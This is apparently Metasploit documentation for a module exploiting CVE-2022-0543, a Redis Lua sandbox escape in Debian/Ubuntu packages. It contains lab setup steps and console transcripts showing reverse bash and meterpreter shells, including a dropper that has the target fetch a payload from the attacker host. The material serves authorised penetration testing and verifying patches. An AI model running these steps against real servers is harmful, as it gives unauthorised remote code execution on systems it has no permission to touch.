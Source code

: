## Vulnerable Application

### Description

This module exploits CVE-2022-0543, a Lua-based Redis sandbox escape. The
vulnerability was introduced by Debian and Ubuntu Redis packages that
insufficiently santizied the Lua environment. The maintainers failed to
disable the package interface, allowing attackers to load arbitrary libraries.

On a typical `redis` deployment (not docker), this module achieves execution
as the `redis` user. Debian/Ubuntu packages run Redis using systemd with the
"MemoryDenyWriteExecute" permission, which limits some of what an attacker can
do. For example, staged meterpreter will fail when attempting to use mprotect.
As such, stageless meterpreter is the preferred payload.

Redis can be configured with authentication or not. This module will work with
either configuration (provided you provide the correct authentication details).
This vulnerability could theoritically be exploited across a few architectures:
i386, arm, ppc, etc. However, the module only supports x86_64, which is likely
to be the most popular version.

### Setup

I'll explain two setup scenarios. I'll first go through Docker since it's so easy
but I don't think it's realistically the most likely deployment. I'll then
explain an Ubuntu 20.04 installation.

#### Docker

This will deploy an official Ubuntu Redis image. To get a vulnerable image do the
following:

1. `docker pull ubuntu/redis:6.0-21.04_edge`
1. `docker run -d --name vuln_redis -e TZ=UTC -p 6379:6379 -e REDIS_PASSWORD=mypassword ubuntu/redis:6.0-21.04_edge`

The vulnerable Redis will now be on port 6379. Note that this version uses a password.

To deploy a patched version, do the following:

1. `docker pull ubuntu/redis:latest`
1. `sudo docker run -d --name fixed_redis -e TZ=UTC -p 6379:6379 -e REDIS_PASSWORD=mypassword ubuntu/redis:latest`

#### Ubuntu 20.04

1. `sudo apt-get install redis-tools=5:5.0.7-2`
1. `sudo apt-get install redis-server=5:5.0.7-2`
1. `sudo nano /etc/redis/redis.conf` -> Comment out "bind" and change "protected-mode" to no.
1. `sudo service redis restart`

## Verification Steps

* Follow setup steps above.
* Do: `use exploit/linux/redis/redis_debian_sandbox_escape`
* Do: `set RHOST <ip>`
* Do: `set LHOST <ip>`
* Do: If needed - `set PASSWORD <password>`
* Do: `check`
* Verify the remote host is vulnerable.
* Do: `run`
* Verify the module receives a reverse shell

## Options

### LUA_LIB

The path to the Lua library to load. The default, `/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`,
appears to be valid for both Ubuntu and Debian but I made it optional in case some edge
case crops up that I hadn't considered.

### PASSWORD

The password, if needed, to use with the Redis AUTH command.

## Scenarios

### Successful exploitation of Redis on Ubuntu 20.04 for reverse bash shell

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.22
RHOST => 10.0.0.22
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[+] 10.0.0.22:6379 - The target is vulnerable. Successfully executed the 'id' command.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 10.0.0.22:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 10.0.0.22:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 10.0.0.22:6379        - Executing Unix Command for cmd/unix/reverse_bash
[+] 10.0.0.22:6379        - Exploit complete!
[*] Command shell session 1 opened (10.0.0.2:4444 -> 10.0.0.22:60844 ) at 2022-04-26 03:17:39 -0700

id
uid=127(redis) gid=134(redis) groups=134(redis)
uname -a
Linux ubuntu 5.13.0-40-generic #45~20.04.1-Ubuntu SMP Mon Apr 4 09:38:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Successful exploitation of Redis on Ubuntu 20.04 for reverse meterpreter

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.22
RHOST => 10.0.0.22
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set target 1
target => 1
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 10.0.0.22:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 10.0.0.22:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 10.0.0.22:6379        - Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] 10.0.0.22:6379        - Using URL: http://10.0.0.2:8080/mBTPVKr7pZVP
[*] 10.0.0.22:6379        - Client 10.0.0.22 (Wget/1.20.3 (linux-gnu)) requested /mBTPVKr7pZVP
[*] 10.0.0.22:6379        - Sending payload to 10.0.0.22 (Wget/1.20.3 (linux-gnu))
[+] 10.0.0.22:6379        - Exploit complete!
[*] 10.0.0.22:6379        - Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 1 opened (10.0.0.2:4444 -> 10.0.0.22:60848 ) at 2022-04-26 03:21:22 -0700
[*] 10.0.0.22:6379        - Server stopped.

meterpreter > shell
Process 13120 created.
Channel 1 created.
id
uid=127(redis) gid=134(redis) groups=134(redis)
uname -a
Linux ubuntu 5.13.0-40-generic #45~20.04.1-Ubuntu SMP Mon Apr 4 09:38:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Successful exploitation of Redis in Ubuntu Docker for reverse bash shell

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set PASSWORD mypassword
PASSWORD => mypassword
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[+] 127.0.0.1:6379 - The target is vulnerable. Successfully executed the 'id' command.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > run

[*] Started reverse TCP handler on 10.0.0.2:4444 
[*] 127.0.0.1:6379        - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:6379        - The target is vulnerable. Successfully executed the 'id' command.
[*] 127.0.0.1:6379        - Executing Unix Command for cmd/unix/reverse_bash
[+] 127.0.0.1:6379        - Exploit complete!
[*] Command shell session 1 opened (10.0.0.2:4444 -> 172.17.0.2:33148 ) at 2022-04-26 03:23:32 -0700

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux 9c7526769ad1 5.13.0-40-generic #45-Ubuntu SMP Tue Mar 29 14:48:14 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

### Failed exploitation due to wrong password

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set PASSWORD lolwat
PASSWORD => lolwat
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 127.0.0.1:6379 - Cannot reliably check exploitability. Failed authentication.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > 
```

### Failed exploitation of patched Redis on Debian 11

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.24
RHOST => 10.0.0.24
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 10.0.0.24:6379 - The target is not exploitable. Could not execute 'id' on the remote target.
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > 
```

### Failed exploitation of not-vulnerable Ubuntu 18.04 i386.

```
msf6 > use exploit/linux/redis/redis_debian_sandbox_escape
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set RHOST 10.0.0.25
RHOST => 10.0.0.25
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > set LHOST 10.0.0.2
LHOST => 10.0.0.2
msf6 exploit(linux/redis/redis_debian_sandbox_escape) > check
[*] 10.0.0.25:6379 - The target is not exploitable. The reported version is unaffected: 4.0.9
msf6 exploit(linux/redis/redis_debian_sandbox_escape) >
```
